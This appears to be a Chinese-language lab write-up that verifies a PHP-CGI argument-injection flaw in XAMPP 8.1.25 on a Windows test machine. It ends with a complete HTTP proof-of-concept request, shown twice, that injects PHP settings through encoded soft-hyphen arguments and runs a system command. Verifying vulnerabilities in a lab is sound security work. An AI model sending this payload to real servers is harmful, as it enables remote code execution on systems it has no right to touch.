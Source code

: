 以Windows Server 2016为例，IP地址为192.168.174.128，XAMPP版本为8.1.25，安装路径为 C:\xampp  
。  
  
首先检查是否安装了漏洞版本。打开XAMPP，控制台日志可以显示版本号为8.1.25为漏洞版本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2JVOUiaJORTvoqLpZUhcwaISvulpbibCCmeBqRvhibMGkrm2sKzde0yz0iawmFwiakePIUgSkzaQtQcDK9KQcyQWLXQ/640?wx_fmt=png&from=appmsg "")  
  
点击Shell ，输入php -v   
可以显示当前php的版本号8.1.25，为漏洞版本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2JVOUiaJORTvoqLpZUhcwaISvulpbibCCm0IsdO99n86b1LjP8MPpkv1cPTyFXTlz77aX20eZx7PFHmP9gsGp7Fg/640?wx_fmt=png&from=appmsg "")  
  
使用默认配置，点击Apache后面的Start按钮，启动Apache服务，默认服务地址为http://192.168.174.128/。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2JVOUiaJORTvoqLpZUhcwaISvulpbibCCmARZQTwT68UjzE3pmhAQ1PuVWO86bNiaqtCfpEsialJ3VmJeVgTNoeu3g/640?wx_fmt=png&from=appmsg "")  
  
另一个页面http://192.168.174.128/dashboard/phpinfo.php可以看到当前php的信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/2JVOUiaJORTvoqLpZUhcwaISvulpbibCCmHNiaFtZsVw9K68uXhjk2eyVxbSictFQo7icrS3WRtWwyjKzIjBxBo9b0g/640?wx_fmt=png&from=appmsg "")  
  
接下来使用如下POC进行辅助漏洞验证，使用BurpSuite发送数据包，根据回显发现执行了dir 命令显示了目录下的文件，验证漏洞存在。  
```
GET /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1Host: 192.168.174.128Connection: closeCache-Control: max-age=0sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "Windows"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Content-Length: 22<?php system("dir");?>
GET /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.174.128
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 22

<?php system("dir");?>
```  
  